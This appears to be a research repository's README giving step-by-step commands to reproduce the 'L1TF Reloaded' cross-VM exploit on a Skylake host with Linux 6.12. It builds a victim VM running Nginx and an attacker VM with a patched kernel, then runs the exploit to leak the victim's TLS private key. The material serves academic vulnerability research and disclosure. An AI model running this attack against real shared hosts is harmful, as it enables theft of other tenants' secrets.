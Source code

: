 Skylake Server
==============

We assume you have access to a Skylake server running Ubuntu 24.04.

You can for example get access to such a machine via the Chameleon Cloud:
https://chameleoncloud.readthedocs.io/en/latest/getting-started/


Install the required packages on the server:
```
sudo apt-get update
sudo apt install -y locales-all fakeroot git kernel-wedge quilt ccache flex bison libssl-dev dh-exec rsync libelf-dev bc libncurses-dev lz4 liblz4-dev tmux cmake libgmp3-dev debootstrap
```
And clone our repo:
```
git clone git@github.com:vusec/rain.git ~/rain
```

Host Kernel
===========

We start by preparing the host kernel.
```
mkdir ~/host; cd ~/host
```
Get Linux kernel v6.12 source code:
```
git clone --branch v6.12 --depth=1 https://github.com/torvalds/linux.git
```
Take your current Ubuntu 24.04 kernel config, and disable kernel signature checking:
```
cd linux
cp /boot/config-6.8.0-64-generic .config
scripts/config -d CONFIG_SYSTEM_REVOCATION_KEYS -d CONFIG_SYSTEM_TRUSTED_KEYS
make olddefconfig
```
Optionally, if you want to add "helper hypercalls", useful for debugging and
exploit development, add them to the host kernel now. For example, apply the
patch `setup/helper-hc.patch`. This would allow you to use `HELPERS=1` and
`LEAK=CHEAT` in `include/config.h`, to run the exploit without L1TF leakage, but
with hypercall-reads instead, as a sanity check.
Then build the kernel:
```
make bindeb-pkg -j`nproc`
```
Install the new kernel:
```
sudo dpkg -i *6.12*.deb
```
And reboot into it:
```
sudo reboot
```
After reboot, ensure Linux-6.12.0 is running:
```
uname -r
```
Also check that you have the default Ubuntu L1TF mitigations, namely SMT on and
conditional L1D flushing:
```
lscpu | grep -i l1tf
```

Victim VM
=========

Let's create the victim VM. As its kernel we take the same, 6.12 kernel we build
for the host. We make the disk 32 GB and put a default (latest stable) Debian
installation on it (which was "Trixie" at time of writing).
```
mkdir ~/victim; cd ~/victim
~/rain/setup/bootstrap-vm.sh --name victim --size 32 --kernel ~/host/linux
```
Boot the victim VM on two siblings of one physical core (CPU 0's):
```
./run-vm.sh victim 7777 `cat /sys/devices/system/cpu/cpu0/topology/thread_siblings_list`
```
Wait a few seconds for the VM to boot up, and then copy over this install script:
```
scp ~/rain/setup/install_nginx_https.sh victim:~
```
Login to the victim VM:
```
ssh victim
```
And install Nginx, generate a self-signed TLS certificate, and configure Nginx
to HTTPS:
```
./install_nginx_https.sh
``` 
Take a look at Nginx's private key of its TLS certificate:
```
sudo cat /etc/ssl/private/nginx-selfsigned.key
```
If all goes well, our attacker VM should leak this key from Nginx's memory.
Exit the victim VM, to go back to the host:
```
exit
```

Attacker VM
===========

For the attacker VM's kernel, we reuse the same linux kernel tree, and we'll
install a page fault handler bypass:
```
cd ~/host/linux
git apply ~/rain/setup/l1tf-pf.patch
```
Next, we bootstrap the attack VM:
```
mkdir ~/attacker; cd ~/attacker
cp ~/rain/setup/*-vm.sh .
./bootstrap-vm.sh --name attacker --size 32 --kernel ~/host/linux
```
Boot the attacker VM on two siblings of another physical core (CPU 1's) than the victim:
```
./run-vm.sh attacker 7778 `cat /sys/devices/system/cpu/cpu1/topology/thread_siblings_list`
```
Check that indeed the attacker and victim run on separate physical cores, as is
enforced by the core-scheduling mitigation:
```
taskset -c -p `sudo cat ~/victim/victim.pid`
taskset -c -p `sudo cat ~/attacker/attacker.pid`
```

Exploit: L1TF Reloaded
======================

SSH into the attack VM:
```
ssh attacker
```
And clone the exploit code:
```
git clone git@github.com:vusec/rain.git
cd rain
```
Load the required dependencies and install the needed kernel modules:
```
make load_modules
```
Ensure `include/config.h` holds the following configuration:
```
#define MACHINE LINUX_6_12
#define HELPERS 0
#define LEAK L1TF
```
Note: if you want a sanity check first, and you have installed helper hypercalls
in the host kernel, then you can also first put `HELPERS` to 1 and `LEAK` to
`CHEAT`.
In `include/constants.h`, ensure this line defines the correct amount of host
physical memory on you system (check with `free -h` on the host).
```
#define HOST_MEMORY_SIZE (64 * 1024ULL*1024*1024)
```

Build the exploit:
```
make exploit
```

Run the exploit:
```
make
```

This can take many hours, hence we recommend running this inside a tmux session or similar.
Output of `stdout` will go to the screen as well as the file `std.out`, and extra
verbose `stderr` output is saved in the file `std.err`.

If all goes well, you expect to see something similar to our demo, resulting in a leaked private key.
To check its correctness, compare it against the true key of the victim's Nginx webserver,
located at `victim:/etc/ssl/private/nginx-selfsigned.key`.
